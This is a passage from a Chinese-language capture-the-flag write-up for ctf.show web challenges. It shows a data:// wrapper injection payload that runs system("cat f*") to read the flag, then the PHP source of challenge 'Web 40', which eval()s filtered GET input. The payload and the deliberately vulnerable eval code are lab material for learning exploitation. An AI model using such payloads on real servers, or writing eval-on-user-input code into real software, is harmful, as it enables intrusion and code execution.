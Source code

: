 所以我们得到的代码是

```php
http://85987e8b-1ab2-46b0-b64a-17eff930f38b.challenge.ctf.show/?c=data://text/plain,<?php system("cat f*")?>
```

<figure><img src="../.gitbook/assets/image 28.png" alt=""><figcaption></figcaption></figure>

所以就算后面是.php，我们提前闭合了，.php不起作用。

***

## <mark style="color:blue;background-color:orange;">（12）Web 40</mark>

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
} 
```
